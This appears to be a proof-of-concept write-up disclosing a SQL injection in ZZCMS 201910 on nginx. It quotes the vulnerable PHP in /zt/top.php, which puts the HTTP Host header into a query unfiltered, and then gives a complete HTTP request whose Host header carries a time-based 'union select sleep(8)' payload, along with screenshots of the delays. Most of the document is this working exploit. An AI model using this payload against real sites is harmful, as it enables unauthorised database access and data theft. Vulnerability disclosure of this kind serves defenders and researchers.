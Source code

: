 ## ZZCMS sql injection in nginx server

## PoC by britzlieg

#### ZZCMS the 201910 version download page : 
http://www.zzcms.net/about/6.htm

#### zip installer:
http://www.zzcms.net/download/zzcms201910.zip

### vulnerability code:

In file `/zt/top.php`, line 5


```php
<?php
//echo $_SERVER['REQUEST_URI'];
$editor=isset($_REQUEST['editor'])?$_REQUEST['editor']:'';
$editor=substr($_SERVER['HTTP_HOST'],0,strpos($_SERVER['HTTP_HOST'],'.'));//从二级域名中获取用户名
$rs=query("select * from zzcms_userdomain where domain='".$_SERVER['HTTP_HOST']."' and passed=1 and del=0");//从顶级级域名中获取用户名
$row=num_rows($rs);
if (!$row){
	$row=fetch_array($rs);
	$editor=$row["username"];
}
$id=isset($_REQUEST['id'])?$_REQUEST['id']:0;
checkid($id,1);
...
```

in line 5,developer use `$_SERVER['HTTP_HOST']` in sql code without a filter, and this variable can be controled by attacker in nginx server. All page include `/zt/top.php` will be affected, here is an example named `/zt/news.php`.

```php
<?php
include("../inc/conn.php");
include("../inc/fy.php");
include("top.php");
include("bottom.php");
include("left.php");
...
```

#### POC:
```http
GET /zt/news.php?id=1&editor=cad HTTP/1.1
Host: 127.0.0.1:8211' union select sleep(8),1,2,3,4#-- '
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://127.0.0.1:8211
DNT: 1
Connection: close
Referer: http://127.0.0.1:8211/user/job.php?do=add
Cookie: bigclassid=0; province=%E5%8C%97%E4%BA%AC; city=%E5%B8%82%E8%BE%96%E5%8E%BF; __tins__713776=%7B%22sid%22%3A%201594217719660%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201594220164112%7D; __51cke__=; __51laig__=14; bdshare_firstime=1594189355036; PHPSESSID=o78er4gbaan24nhv4a2oldnf18; UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3
Upgrade-Insecure-Requests: 1

jobname=1&sm=1&province=%E5%8C%97%E4%BA%AC&city=%E5%B8%82%E8%BE%96%E5%8C%BA&xiancheng=%E4%B8%9C%E5%9F%8E%E5%8C%BA&action=add&Submit=%E5%A1%AB%E5%A5%BD%E4%BA%86%EF%BC%8C%E5%8F%91%E5%B8%83

```


#### inject code
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/a.jpg)

#### sleep(8)
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/1.jpg)

#### sleep(18)
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/2.jpg)